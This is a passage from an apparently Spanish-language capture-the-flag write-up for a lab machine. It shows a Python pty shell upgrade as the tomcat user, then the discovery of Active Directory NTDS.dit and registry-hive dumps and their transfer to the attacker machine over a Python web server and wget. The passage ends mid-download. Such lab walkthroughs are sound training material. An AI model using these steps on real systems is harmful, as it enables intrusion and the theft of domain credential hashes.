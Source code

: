 ```bash
script /dev/null -c bash
Script started, file is /dev/null
Script done, file is /dev/null

whereis python
python: /usr/bin/python3.5 /usr/bin/python2.7-config /usr/bin/python3.5m /usr/bin/python2.7 /usr/bin/python /usr/lib/python3.5 /usr/lib/python2.7 /etc/python3.5 /etc/python2.7 /etc/python /usr/local/lib/python3.5 /usr/local/lib/python2.7 /usr/include/python2.7 /usr/share/python /usr/share/man/man1/python.1.gz

python3.5 -c 'import pty; pty.spawn("/bin/bash")'
tomcat@kotarak-dmz:/$
```

Tenemos en el directorio `/home/tomcat/to_archive/pentest_data` recursos interesantes:

```bash
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ ls -l
total 28304
-rw-r--r-- 1 tomcat tomcat 16793600 Jul 21  2017 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
-rw-r--r-- 1 tomcat tomcat 12189696 Jul 21  2017 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$
```

Buscando un poco, los archivos hacen referencia a los datos obtenidos de un pentest asocido a un dominio con *Active Directory*. Asi que vamos vamos a traerlos a nuestra máquina de atacante compartiendo un servidor con python desde la máquina víctima:

```bash
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.14.16 - - [19/Oct/2021 16:57:45] "GET /20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit HTTP/1.1" 200 -
10.10.14.16 - - [19/Oct/2021 16:57:59] "GET /20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin HTTP/1.1" 200 -
```

```bash
❯ wget http://10.10.10.55:8000/20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
--2021-10-19 15:52:55--  http://10.10.10.55:8000/20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
Conectando con 10.10.10.55:8000... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 16793600 (16M) [application/octet-stream]
Grabando a: «20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit»

20170721114636_default_192.168.1 100%[=======================================================>]  16.02M  4.79MB/s    en 3.6s    

2021-10-19 15:52:59 (4.43 MB/s) - «20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit» guardado [16793600/16793600]

❯ wget http://10.10.10.55:8000/20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
--2021-10-19 15:53:09--  http://10.10.10.55:8000/20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
Conectando con 10.10.10.55:8000... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 12189696 (12M) [application/octet-stream]
Grabando a: «20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin»

20170721114637_default_192.168.1 100%[=======================================================>]  11.62M  3.69MB/s    en 3.2s    

```
